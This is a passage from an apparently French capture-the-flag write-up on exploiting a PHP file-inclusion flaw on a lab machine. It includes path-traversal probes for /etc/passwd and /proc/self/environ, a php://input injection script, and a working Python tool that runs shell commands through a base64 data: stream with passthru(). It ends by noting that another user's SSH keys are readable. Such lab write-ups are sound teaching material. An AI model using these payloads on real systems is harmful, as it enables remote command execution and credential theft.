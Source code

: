 Hop ! Direction http://192.168.1.57/0f756638e0737f4a0de1c53bf8937a08/ voir si on trouve finalement quelque chose d'intéressant.  

En regardant comment sont formées les URLs il semble évident qu'on est en présence d'une faille de type local file disclosure ou include().  

![Pages web cachées](https://raw.githubusercontent.com/devl00p/blog/master/images/relativity5.png)

On teste rapidement quelques entrées pour le paramètre page comme /etc/passwd, ../../../../../../etc/passwd, .htaccess, /proc/self/environ mais de toute évidence il y a une protection supplémentaire.  

Idem en testant une injection via *php://input* (petit script qui pourrait vous servir) :

```python
import requests

cmd = "<?php echo('y0');?>"
url = "http://192.168.1.57/0f756638e0737f4a0de1c53bf8937a08/index.php?page=php://input"
r = requests.post(url, data=cmd)
print r.content
```

Finalement on obtient un résultat avec l'utilisation d'un [flux data](https://www.idontplaydarts.com/2011/03/php-remote-file-inclusion-command-shell-using-data-stream/).  

La fonction *system()* semble avoir été bloquée mais *passthru()* fonctionne à merveille :) On se fait un petit outil qui nous permet de passer des commandes presque comme si on y était :

```python
import requests
import base64
import sys

if len(sys.argv) < 2:
    print "Usage: python sploit.py cmd arg1 arg2..."()

cmd = ' '.join(sys.argv[1:])

cmd = base64.b64encode("<?php passthru('{0}');?>".format(cmd))
url = "http://192.168.1.57/0f756638e0737f4a0de1c53bf8937a08/index.php?page=data:;base64," + cmd
r = requests.get(url)
start = r.content.index('div id="content"') + 17
try:
    end = r.content.index('</div>', start)
    print r.content[start:end]
except:
    print r.content
```

On s’aperçoit assez vite que *wget* n'est pas installé et que *curl* a été retiré (*locate* indique son emplacement mais le binaire ne semble plus y être).  

Via un *ls -alR /home* on découvre deux utilisateur : *jetta* et *mauk*.
Le second a été quelque peu permissif sur les droits d'accès de ses fichiers puisqu'il est possible de lire ses clés SSH !

